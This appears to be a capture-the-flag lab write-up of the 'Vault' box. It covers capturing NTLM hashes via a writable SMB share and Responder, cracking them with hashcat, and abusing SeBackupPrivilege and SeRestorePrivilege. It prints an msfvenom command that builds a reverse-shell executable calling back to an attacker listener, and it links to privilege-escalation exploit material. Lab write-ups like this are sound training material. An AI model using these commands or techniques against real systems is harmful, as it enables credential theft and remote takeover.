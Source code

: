 # Vault

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

i add the domain in my hosts file and look for anonymous access and smb shares:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The write permission on a share is rather unusual to my knowledge in those types off boxes but i already saw it during some previous stuff so i tried using responder to catch some NTML creds:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this is rather strange since i did not do anything, maybe something to do with the fact that i added the domain in my hosts file idk. since i won't be lucky like this every time here is a good article about abusing NTLM relay attacks:

{% embed url="https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/" %}

Or this one:

{% embed url="https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html" %}

Then i launch my hashcat:

```
hashcat -m 5600 /usr/share/wordlists/rockyou.txt.gz ntmlhash.txt
```

{% hint style="info" %}
_**added after completing the box**_: I looked at the WU to maybe discover other routes or techniques and this writeup does a very good job at explaining how to exploit writeable shares&#x20;
{% endhint %}

and i discovered the password and quickly understand why this box is rated easy:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok i didn't say anything i can't read proof.txt yet:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i quickly see that i have SeBackupPrivilege

{% embed url="https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md" %}

So i follow all the steps and manage to dump the admin hash:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and it does not work lol:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I looked and this account does not have winrm rights, ouch the box seems a bit trickier than expected

I thought to myselft that i jumped on SeBackupPrivilege so quickly that i did not look into the other privileges such as the restore privilege:

{% embed url="https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------" %}

After looking at how the script works we need to craft a reverse shell exe to use it as an argument:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.51 LPORT=80 -f exe -o reverse.exe
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

for some reason it did not work until i put the absolute path of reverse.exe
